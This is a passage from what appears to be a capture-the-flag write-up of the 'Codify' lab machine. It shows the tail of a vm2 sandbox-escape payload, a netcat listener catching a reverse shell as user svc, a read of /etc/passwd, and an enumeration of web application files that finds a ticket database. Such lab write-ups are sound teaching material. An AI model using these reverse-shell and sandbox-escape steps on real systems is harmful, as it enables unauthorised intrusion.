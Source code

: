 ```shell
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code));
```

```shell
$ ifconfig tun0 | grep inet && rlwrap nc -nvlp 80       
        inet 10.10.14.6  netmask 255.255.254.0  destination 10.10.14.6
        inet6 fe80::dfd1:c7e1:6204:515a  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1004  prefixlen 64  scopeid 0x0<global>
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.239] 34556
bash: cannot set terminal process group (1255): Inappropriate ioctl for device
bash: no job control in this shell
svc@codify:~$ id
id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

Correctly obtained a shell with "svc" user. The user flag is not present. The intermediate user of privilege escalation is joshua.

```shell
svc@codify:/var/www/contact$ cat /ecat /etc/passwd | grep -i bash
root:x:0:0:root:/root:/bin/bash
joshua:x:1000:1000:,,,:/home/joshua:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
```

From the enumeration of webapp files, a database is inviduated.

```shell
svc@codify:/var/www$ find .find . -type f | grep -v -e 'node_modules'
./editor/package.json
./editor/templates/editor.html
./editor/templates/index.html
./editor/templates/about.html
./editor/templates/limitations.html
./editor/package-lock.json
./editor/index.js
./html/index.html
./contact/package.json
./contact/templates/ticket.html
./contact/templates/login.html
./contact/templates/tickets.html
./contact/package-lock.json
./contact/tickets.db
./contact/index.js
```
